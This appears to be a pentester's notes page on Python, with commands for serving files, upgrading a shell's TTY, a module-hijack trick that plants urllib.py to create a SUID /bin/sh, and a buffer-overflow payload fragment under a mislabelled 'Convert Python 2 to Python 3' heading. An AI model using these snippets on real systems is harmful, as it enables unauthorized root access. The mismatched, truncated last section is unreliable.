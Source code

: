 # 🤖 python
Tags: #🤖
Related to: 
See also: 
Previous: [[PROGRAMMING]], [[Getting Started]], [[DNS Enumeration Using Python]], [[Introduction to Python 3]]

## Description

Python is an interpreted high-level general-purpose programming language.

## Usage Examples

### Create HTTP server

	python -m SimpleHTTPServer 80
	python3	-m http.server 80

### Upgrade a terminal for improved functionality (arrow keys, history, etc.)

| **Command**   | **Description**   |
| --------------|-------------------|
| `echo $TERM` and `stty size` | Get local terminal type and size |
| `which python` or `which python3` or `which script` | Locate an interpreter |
| `python -c 'import pty; pty.spawn("/bin/bash")'` or `script -q /dev/null -c bash` | Upgrade shell TTY (1) |
| `ctrl+z` then `stty raw -echo;` then `fg` then `enter` twice | Upgrade shell TTY (2) |
| `export TERM=xterm-256color` then `stty rows 67 columns 318` | Set remote terminal type and size |

### Preserve SUID on shell invocation

Python first checks for modules in the current working directory, before looking in the other paths. We can attempt to hijack loading of the legitimate call or urllib modules, so that our malicious module is loaded instead. Let's create a urllib.py file in the /home/frank folder with the contents below:

	vi urllib.py

```python
import os
os.system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh")
```

	/tmp/sh -p	// #

### Convert Python 2 to Python 3

```python
from pwn import *
import sys

if len(sys.argv) < 3:
	print "Usage: {} ip port".format(sys.argv[0])
	sys.exit()

ip = sys.argv[1]
port = sys.argv[2]

payload = "A" * 1028 + "B" * 4 + "C" * 500

```